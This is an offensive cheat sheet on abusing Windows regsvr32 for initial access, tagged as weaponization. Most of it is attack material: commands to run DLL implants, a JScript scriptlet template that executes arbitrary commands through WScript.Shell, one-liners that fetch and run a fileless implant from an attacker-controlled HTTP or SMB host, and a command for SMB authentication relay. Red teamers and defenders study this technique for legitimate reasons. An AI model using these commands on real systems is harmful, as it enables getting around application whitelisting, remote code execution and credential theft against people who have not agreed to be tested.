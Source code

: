 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - living-off-the-land
  - T1117
  - windows
---
```

# Regsvr32

Execute DLL implant.

```
C:\> regsvr32.exe /s implant.dll
```

Execute a SCT implant.

```xml
<?XML version="1.0"?>
<scriptlet>
<registration 
    progid="PoC"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">
        <![CDATA[
            var r = new ActiveXObject("WScript.Shell").Run("<commands>");    
        ]]>
</script>
</registration>
</scriptlet>
```

```
C:\> regsvr32.exe /s /u /i:implant.sct scrobj.dll
```

Execute a fileless implant.

```
C:\> regsvr32.exe /s /u /i:http[s]://<IP>[:PORT]/implant.sct scrobj.dll

C:\> regsvr32.exe /s /u /i:\\<attacker_IP>\implant.sct scrobj.dll
```

Execute command to perform SMB authentication relay.

```
C:\> regsvr32.exe /s /u /i:\\<attacker_IP>\@snare scrobj.dll
```

---
## References

### LOLBAS

- [LOLBAS: Regsvr32](https://lolbas-project.github.io/lolbas/Binaries/Regsvr32/)

### Hacktricks

- [Hacktricks: Windows Reverse Shells](https://book.hacktricks.wiki/en/generic-methodologies-and-resources/reverse-shells/windows.html)

### Red Team Notes

- [Red Team Notes: Code Execution - Regsvr32](https://www.ired.team/offensive-security/code-execution/t1117-regsvr32-aka-squiblydoo)